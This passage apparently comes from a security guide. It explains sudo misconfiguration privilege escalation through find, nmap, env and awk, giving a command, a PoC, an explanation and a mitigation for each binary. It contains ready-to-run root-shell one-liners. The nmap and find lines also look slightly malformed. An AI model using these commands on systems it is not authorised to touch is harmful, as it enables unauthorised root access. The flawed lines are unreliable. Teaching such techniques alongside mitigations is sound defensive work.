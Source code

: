     **Command:** `sudo find / etc/passwd -exec /bin/bash \;`
    
    **Explanation:** The `find` command allows executing other commands on matched files using `-exec`. Here, it invokes `/bin/bash`, granting an attacker a shell with root privileges.
    
    **PoC:**
    
    ```bash
    sudo find / etc/passwd -exec /bin/bash \;
    ```
    
    **Mitigation:** Avoid granting `sudo` access to `find` without command restrictions.
    
    ---
    
    ### 2.1.3 `nmap`
    
    **Command:** 
    
    `echo "os.execute('/bin/bash/')" > /tmp/shell.nse && sudo nmap --script=/tmp/shell.nse`
    
    **Explanation:** `nmap` can execute Lua scripts via the `--script` option. By writing a Lua script to open a shell, attackers can achieve privilege escalation.
    
    **PoC:**
    
    ```bash
    echo "os.execute('/bin/bash/')" > /tmp/shell.nse
    sudo nmap --script=/tmp/shell.nse
    ```
    
    **Mitigation:** Disable `nmap` as a `sudo` executable or use a restricted set of options to prevent external script execution.
    
    ---
    
    ### 2.1.4 `env`
    
    **Command:** `sudo env /bin/bash`
    
    **Explanation:** `env` allows running commands in a modified environment. By passing `/bin/bash`, attackers can escalate privileges if `env` is accessible with sudo.
    
    **PoC:**
    
    ```bash
    sudo env /bin/bash
    ```
    
    **Mitigation:** Remove `sudo` privileges for `env` to prevent unintended shell escalation.
    
    ---
    
    ### 2.1.5 `awk`
    
    **Command:** `sudo awk 'BEGIN {system("/bin/bash")}'`
    
    **Explanation:** The `awk` command allows running system commands. Using `sudo`, attackers can invoke a root shell by executing a bash shell.
    